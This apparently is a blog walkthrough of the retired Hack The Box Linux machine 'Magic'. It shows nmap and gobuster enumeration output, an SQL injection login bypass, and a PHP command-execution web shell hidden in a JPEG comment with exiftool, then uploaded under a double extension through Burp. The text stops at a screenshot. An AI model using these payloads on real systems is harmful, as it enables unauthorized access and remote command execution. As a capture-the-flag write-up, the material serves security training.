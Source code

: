 ```yaml
---
layout: post
title:  "HTB Magic Walkthrough"
author: nanobyte
date:   2020-08-31
description: Hack The Box writeup for Magic, Retired Linux Medium Box
tags: HTB_Walkthrough 
---
```


I began with some simple enumeration scans:

{% highlight bash linenos %}
nmap -sV -sC -p- 10.10.10.185                                                                                                                                                                               [478/478]
Starting Nmap 7.80 ( https://nmap.org ) at 2020-05-26 20:08 CDT
Nmap scan report for 10.10.10.185                      
Host is up (0.043s latency).                                                                                         
Not shown: 65533 closed ports                                                                                        
PORT   STATE SERVICE VERSION                                                                                         
22/tcp open  ssh     OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)                                    
| ssh-hostkey:                                                                                                       
|   2048 06:d4:89:bf:51:f7:fc:0c:f9:08:5e:97:63:64:8d:ca (RSA)                                                                                                                                                                             
|   256 11:a6:92:98:ce:35:40:c7:29:09:4f:6c:2d:74:aa:66 (ECDSA)                                                                                                                                                                            
|_  256 71:05:99:1f:a8:1b:14:d6:03:85:53:f8:78:8e:cb:88 (ED25519)                                                    
80/tcp open  http    Apache httpd 2.4.29 ((Ubuntu))                                                                                                                                                                                        
|_http-server-header: Apache/2.4.29 (Ubuntu)                                                                         
|_http-title: Magic Portfolio                                                                                        
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel                                                              
                                                                                                                     
Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .                                                                                                                                             
Nmap done: 1 IP address (1 host up) scanned in 41.57 seconds
{% endhighlight %}

{% highlight bash linenos %}
gobuster dir -w /usr/share/wordlists/dirbuster/directory-list-2.3-small.txt -u http://10.10.10.185 -t 30
===============================================================                                                      
Gobuster v3.0.1                                                                                                      
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@_FireFart_)                                                      
===============================================================                                                                                                                                                                            
[+] Url:            http://10.10.10.185                                                                                                                                                                                                    
[+] Threads:        30                                                                                                                                                                                                                     
[+] Wordlist:       /usr/share/wordlists/dirbuster/directory-list-2.3-small.txt                                                                                                                                                            
[+] Status codes:   200,204,301,302,307,401,403                                                                                                                                                                                            
[+] User Agent:     gobuster/3.0.1                                                                                   
[+] Timeout:        10s                                                                                                                                                                                                                    
===============================================================                                                                                                                                                                            
2020/05/26 20:10:17 Starting gobuster                                                                                                                                                                                                      
===============================================================                                                                                                                                                                            
/assets (Status: 301)                                                                                                                                                                                                                      
/images (Status: 301)                                                                                                                                                                                                                      
===============================================================                                                                                                                                                                            
2020/05/26 20:12:26 Finished                                                                                                                                                                                                               
===============================================================
{% endhighlight %}

I was able to identify SQL Injection on a login page, at http://10.10.10.185/login.php, using the following in the username and password fields:

{% highlight bash linenos %}
Username: ' or 1=1 --
Password: ' or 1=1 --
{% endhighlight %}

I tried to upload a PHP reverse shell, but got an error back asking `What are you trying to do here!?` so obviously it is blocked. By changing .php to .jpg resulted in the same error, so moved on. I downloaded an image from the internet, named it index.jpeg and used exfiltool to make a malicious image file:

{% highlight bash linenos %}
exiftool -Comment='<?php if(isset($_REQUEST['cmd'])){ echo "<pre>"; $cmd = ($_REQUEST['cmd']); system($cmd); echo "</pre>"; die; }?>' index.jpeg
{% endhighlight %}

Once I uploaded, I used BURP to intercept the image file, and sent to repeater. Once in repeater, I changed the filename to index.php.jpeg and sent the POST forward:

<img src="images/posts/magic_walkthrough/burp_repeater.png" alt="burp_repeater">
